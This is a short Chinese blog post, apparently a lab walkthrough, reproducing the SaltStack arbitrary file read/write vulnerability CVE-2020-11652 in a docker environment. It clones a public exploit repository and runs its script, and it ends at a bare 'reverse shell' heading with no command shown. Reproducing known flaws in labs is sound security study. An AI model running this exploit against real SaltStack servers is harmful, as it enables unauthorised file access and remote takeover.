





# SaltStack 任意文件读写漏洞（CVE-2020-11652） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283222.html`](https://www.cnblogs.com/NoCirc1e/p/16283222.html)

SaltStack 是基于 Python 开发的一套 C/S 架构配置管理工具。国外某安全团队披露了 SaltStack 存在认证绕过漏洞（CVE-2020-11651）和目录遍历漏洞（CVE-2020-11652）。

在 CVE-2020-11652 目录遍历漏洞中，攻击者通过构造恶意请求，可以读取、写入服务器上任意文件。

参考链接：

*   [`labs.f-secure.com/advisories/saltstack-authorization-bypass`](https://labs.f-secure.com/advisories/saltstack-authorization-bypass)
*   [`github.com/rossengeorgiev/salt-security-backports`](https://github.com/rossengeorgiev/salt-security-backports)
*   [`github.com/jasperla/CVE-2020-11651-poc`](https://github.com/jasperla/CVE-2020-11651-poc)

## 漏洞环境

执行如下命令启动一个 SaltStack Master 服务：

```
docker-compose up -d
```



环境启动后，将会在本地监听如下端口：

*   4505/4506 这是 SaltStack Master 与 minions 通信的端口
*   8000 这是 Salt 的 API 端口
*   2222 这是容器内部的 SSH 服务器监听的端口

## 漏洞复现

首先我们下载 poc

```
git clone https://github.com/heikanet/CVE-2020-11651-CVE-2020-11652-EXP.git
```



安装好 salt 即可运行

```
apt-get update
apt install python3-pip
pip install salt
```



```
python3 CVE-2020-11651-CVE-2020-11652-EXP/CVE-2020-11651.py 
```



反弹 Shell

